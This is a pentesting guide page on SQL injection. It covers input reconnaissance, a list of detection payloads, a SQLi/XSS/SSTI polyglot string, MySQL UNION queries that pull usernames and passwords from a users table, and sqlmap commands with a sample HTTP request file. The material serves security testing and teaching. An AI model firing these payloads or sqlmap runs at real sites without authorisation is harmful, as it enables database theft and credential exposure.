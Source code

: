 # SQL injection

Many web applications use one or multiple databases to manage data. In order to dynamically edit the database while users browse the website, some SQL queries can rely on input vectors. When input parameters used in those queries are insufficiently validated or sanitized, these web apps can be vulnerable to SQL injections.

SQL injection attacks can allow attackers to read, update, insert or delete database data by injecting a piece of SQL query through the input vector, hence affecting the intended execution of the original query. In some cases, these attacks can also lead to File Download, File Upload or even Remote Code Execution.

Testers need to identify input vectors (parts of the app that accept content from the users) that could be used for database operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

### Vulnerable input recon

Using special SQL characters (`'`, `"`, `#`, `;`, `)`, `*`,`%`) in an input could lead to SQL errors sometimes echoed back to the users for debugging. This would indicate an entry point not sanitized enough and thus potentially vulnerable to SQL injection.

> [!TIP]
> For every payload do not forget to try url encoding or others.

### Manual testing

With `some.website/?parameter=value` some basic useful payload to detect vulnerable inputs are:

```
parameter=1
parameter=1'
parameter=1"
parameter=[1]
parameter[]=1
parameter=1`
parameter=1\
parameter=1/**/
parameter=1/*!111'*/
parameter=1' or '1'='1
parameter=1 or 1=1
parameter=' or ''='
parameter=' OR 1 -- -
parameter=1' or 1=1 --
parameter=1' or 1=1 -- -
parameter=1' or 1=1 /*
parameter='='
```

> [!WARNING]
> GET parameters are not the only ones that could be vulnerable to SQLi. Testers should thoroughly test all user inputs (parameters, user-agents, cookies...)

The following payload is used for testing SQL injections, XSS (Cross-Site Scripting and SSTI (Server-Side Template Injection.

```
'"<svg/onload=prompt(5);>{{7*7}}
```

#### Extracting information with UNION

**MySQL**

1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT @@version, NULL -- # Inserting null depending on number of columns
```

3\. Find tables name:

```sql
' UNION SELECT NULL,concat(COLUMN_NAME) from information_schema.columns where table_name='users' --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```
### Automated tests

Tools like [SQLmap](https://github.com/sqlmapproject/sqlmap) or [SQLninja](https://github.com/xxgrunge/sqlninja) can also be used to fuzz input vectors, find vulnerable entry points and automatically exploit them.

```bash
sqlmap --user-agent "PENTEST" --url $URL -p target_parameter --all
```

It is also possible to load request files and let SQLmap do the heavy work of fuzzing every parameter and input vector.

```bash
sqlmap -r $REQUEST_FILE --level 2 -v 2 --all
```

The request file should look like a standard HTTP request (line, headers, empty line, optional data). It can be obtained by many ways like inspecting network operations in a browser, intercepting requests with a proxy (like Burp Suite), and so on.

```http
POST /login.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,fr;q=0.5,fr-FR;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: JSESSIONID=F168EA13C46D14AA134E13D4;
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=testusername&password=testpassword
```

## Resources

[https://www.asafety.fr/mysql-injection-cheat-sheet/](https://www.asafety.fr/mysql-injection-cheat-sheet/)

[https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

[https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)

[http://pentestmonkey.net/category/cheat-sheet/sql-injection](http://pentestmonkey.net/category/cheat-sheet/sql-injection)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[https://portswigger.net/kb/issues/00100210_sql-injection-second-order](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)

[https://github.com/Hakumarachi/Loose-Compare-Tables](https://github.com/Hakumarachi/Loose-Compare-Tables)